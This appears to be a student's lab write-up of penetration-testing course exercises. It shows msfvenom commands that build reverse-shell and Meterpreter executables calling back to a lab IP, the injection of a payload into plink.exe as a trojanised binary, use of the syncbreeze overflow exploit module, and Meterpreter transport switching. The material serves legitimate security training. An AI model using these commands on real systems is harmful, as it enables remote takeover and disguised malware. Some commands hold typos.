### 22.3.7.1 Exercises
#### 1. Create a staged and a non-staged Linux binary payload to use on your Kali system.

- Non-Staged Binary Payload

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o nonstag
  ed_reverse.exe
  ```

- Staged Binary Payload

  ```bash
  msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o staged_
  reverse.exe
  ```

#### 2. Setup a Netcat listener and run the non-staged payload. Does it work?

Sure did


#### 3. Setup a Netcat listener and run the staged payload. Does it work?

It did not work


#### 4. Get a Meterpreter shell on your Windows system. Practice file transfers.

1. Used `exploit/windows/http/syncbreeze_bof` with `windows/meterpreter/reverse_http` payload.
   
2. Set options for each
   
3. Ran exploit and got meterpreter shell
   
4. Uploaded and downloaded a file
   

#### 5. Inject a payload into plink.exe. Test it on your Windows system.

1. Injected payload in plink.exe

   ```bash
   msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.216 LPORT=8000 -f exe -x /usr/share/windows-resources/binaries/plink.exe -o plink_meterpreter.exe
   ```

2. Started multi-handler on Kali using meterpreter/reverse_http
   

3. Transferred to Windows & ran file to get meterpreter reverse http shell
   

#### 6. Create an executable file running a Meterpreter payload and execute it on your Windows system.

1. Created the executable:

   ```bash
   sfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.216 LPORT=8000 -f exe -o meterpreter.exe
   ```

2. Started meterpreter handler on Kali
   

3. Transferred to Windows & ran file to get meterpreter reverse http shell
   

#### 7. After establishing a Meterpreter connection, setup a new transport type and change to it.

1. Added a new transport method

   ```bash
   transport add -t reverse_tcp -l 192.168.119.216 -p 8001
   ```

   

2. Backgrounded original meterpreter session & set up listener for new transport:
   

3. Returned to original session & activated new transport:

   ```bash
   sessions -i 6
   transport next
   ```

   

4. Connected to new transport
   